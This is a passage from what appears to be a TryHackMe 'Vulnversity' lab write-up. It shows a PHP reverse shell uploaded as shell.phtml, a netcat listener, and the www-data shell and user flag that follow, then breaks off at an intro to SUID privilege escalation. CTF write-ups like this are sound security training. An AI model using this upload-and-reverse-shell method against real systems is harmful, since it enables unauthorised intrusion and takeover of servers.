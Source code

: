 #### Now I Will Use Pentest Monky php_shell after make it shell.phtml To Get reverse_shell

![](/assets/TryHackMeRoomsImage/Vulnversity/uploaded.png)

Gain Reverse Shell

>**nc -nlvp 1234**

```js
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.4 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ ~ nc -nlvp 1234
Listening on 0.0.0.0 1234
```
#### go to http://10.10.220.119:3333/internal/uploads/shell.phtml to execute our shell
#### back to our listener
```js
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.4 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ ~ nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.220.119 46868
Linux ip-10-10-220-119 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 15:39:26 up  1:32,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
Move TO /home/bill and Get First Flag User.txt

$ cat user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```

#### Time for some privilege escalation

SUID
(Set owner User ID up on execution) is a special type of file permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged in user.

